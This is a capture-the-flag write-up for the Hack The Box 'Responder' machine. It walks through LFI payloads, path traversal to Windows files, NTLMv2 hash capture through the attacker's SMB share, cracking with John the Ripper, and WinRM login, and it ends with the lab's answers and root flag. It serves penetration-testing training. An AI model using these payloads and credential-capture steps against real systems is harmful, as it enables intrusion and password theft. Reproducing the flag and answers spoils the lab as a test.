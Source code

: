 ```yaml
---
layout: single
title: Responder - Hack The Box
excerpt: "In this machine, we exploit LLMNR/NBT-NS poisoning to capture NTLMv2 hashes and crack them."
date: 2025-03-11
classes: wide
header:
  teaser: /img2/responder.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Windows
  - Very Easy
tags:
  - LLMNR/NBT-NS poisoning
  - NTLMv2s
---
```


![](/img2/Pasted%20image%2020250311104959.png)

## Introduction

> In this machine, we exploit LLMNR/NBT-NS poisoning to capture NTLMv2 hashes and crack them.

## Reconnaissance

- Connectivity

```bash
ping -c1 10.129.208.162
```

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.129.208.162
```

![](/img2/Pasted%20image%2020250311105508.png)

- Add domain to /etc/hosts

```bash
echo "10.129.208.162 unika.htb" >> /etc/hosts
```

- See the machine technologies 

```bash
whatweb unika.htb
```

![](/img2/Pasted%20image%2020250311105948.png)

- Check source code of index page

![](/img2/Pasted%20image%2020250311112945.png)

> We found a possible LFI

- (BONUS) Try to view the backend code of index.php

- Send response to index.php

```bash
curl http://unika.htb/index.php?page=php://filter/convert.base64-encode/resource=index.php > index.php
```

- Decode index.php 

```bash
cat index.php | base64 -d
```

![](/img2/Pasted%20image%2020250311113625.png)

> If "page" is not in the url show the english.html, else allow the user to choose the file to show.

## Exploitation

- Test LFI

```bash
curl http://unika.htb/index.php?page=../../../../windows/win.ini
```

![](/img2/Pasted%20image%2020250311114816.png)

- Get NTLM Hash with wireshark

- Create SMB service in the host and upload test file

```bash
apt install samba
```

```bash
mkdir /usr/share/samba/publico
```

```bash
echo "TEST" > /usr/share/samba/publico/test.txt
```

![](/img2/Pasted%20image%2020250311141417.png)

```bash
systemctl restart smbd
```

- Intercept the request to own SMB service with wireshark

![](/img2/Pasted%20image%2020250311141559.png)

- Copy values to create the HASH

```
User:
Domain:
Challenge:
HMAC-MD5: 
NTLMv2Response without HMAC: 
```

- User and domain:

![](/img2/Pasted%20image%2020250311141928.png)

```
User: Administrator
Domain: RESPONDER
Challenge:
HMAC-MD5: 
NTLMv2Response without HMAC: 
```

- Challenge:

![](/img2/Pasted%20image%2020250311142116.png)

```
User: Administrator
Domain: RESPONDER
Challenge: 583a9235488cccb1
HMAC-MD5: 
NTLMv2Response without HMAC: 
```

- HMAC-MD5:

![](/img2/Pasted%20image%2020250311142320.png)

```
User: Administrator
Domain: RESPONDER
Challenge: 583a9235488cccb1
HMAC-MD5: fdaa6c84ae9d9f9c07fe6209c9bcacfc
NTLMv2Response without HMAC-MD5: 
```

- NTLMv2Response without HMAC-MD5: 

![](/img2/Pasted%20image%2020250311142457.png)

```
User: Administrator
Domain: RESPONDER
Challenge: 583a9235488cccb1
HMAC-MD5: fdaa6c84ae9d9f9c07fe6209c9bcacfc
NTLMv2Response without HMAC-MD5: 01010000000000006ae580018292db0181e8493b0080dafc0000000002000c0050005900550053004500520001000c0050005900550053004500520004000c0070007900750073006500720003001a007000790075007300650072002e00700079007500730065007200070008006ae580018292db0106000400020000000800300030000000000000000100000000200000686b285cdf2e3909b8b49869d0cc97afddfa35b723d2b709fdba9258165ba3f10a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e00330037000000000000000000
```

- Create HASH

```
User::Domain:Challenge:HMAC-MD5:NTLMv2Response without HMAC-MD5
```

```bash
echo "Administrator::RESPONDER:583a9235488cccb1:fdaa6c84ae9d9f9c07fe6209c9bcacfc:01010000000000006ae580018292db0181e8493b0080dafc0000000002000c0050005900550053004500520001000c0050005900550053004500520004000c0070007900750073006500720003001a007000790075007300650072002e00700079007500730065007200070008006ae580018292db0106000400020000000800300030000000000000000100000000200000686b285cdf2e3909b8b49869d0cc97afddfa35b723d2b709fdba9258165ba3f10a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e00330037000000000000000000" > hash.txt
```

- Craking the HASH with John The Ripper

```bash
john -w=wordlists.txt hash.txt
```

![](/img2/Pasted%20image%2020250311143658.png)

- Connect to WinRM

```bash
evil-winrm -i 10.129.208.162 -u administrator -p badminton
```

![](/img2/Pasted%20image%2020250311144043.png)

## Tasks

1. When visiting the web service using the IP address, what is the domain that we are being redirected to?
> unika.htb

2. Which scripting language is being used on the server to generate webpages?
> php

3. What is the name of the URL parameter which is used to load different language versions of the webpage?
> page

4. Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
> ../../../../../../../../windows/system32/drivers/etc/hosts

5. Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
> //10.10.14.6/somefile

6. What does NTLM stand for?
> New Technology LAN Manager

7. Which flag do we use in the Responder utility to specify the network interface?
> -I

8. There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.
> Jonh The Ripper

9. What is the password for the administrator user?
> badminton

10. We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?
> 5985

11. Submit root flag
> ea81b7afddd03efaa0945333ed147fac

![](/img2/Pasted%20image%2020250311144630.png)
